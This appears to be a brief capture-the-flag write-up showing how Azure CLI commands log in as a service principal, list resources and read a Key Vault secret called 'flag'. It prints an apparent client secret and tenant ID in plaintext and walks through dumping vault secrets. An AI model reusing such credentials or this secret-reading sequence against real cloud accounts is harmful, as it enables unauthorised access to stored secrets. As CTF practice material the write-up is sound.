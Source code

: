 # Azure/ServicePrincipal


Since all the details for connecting to azure was listed, and the Azure CLI was already installed - it was time to connect.

```
az login --service-principal -u 638ba534-d2ee-475a-adf7-089190310ec0 -p ab28Q~u1z~KktYhXgfAn4OwTFtYv.NsojE4GlcO~ --tenant 6837db8b-72d9-4346-bbb4-c2536150adf5
```

To get an overview of what resources was available we listed them
```
az resource list
```

We could see that there was only a keyvault there so we listed its secrets

```
az keyvault secret list --vault-name flag1vault2CF06847
```

There was only one secret which had the name 'flag' so we asked KeyVault to show it to us

```
az keyvault secret show --vault-name flag1vault2CF06847 --name flag
```

And there we had the flag in the "Value" field!
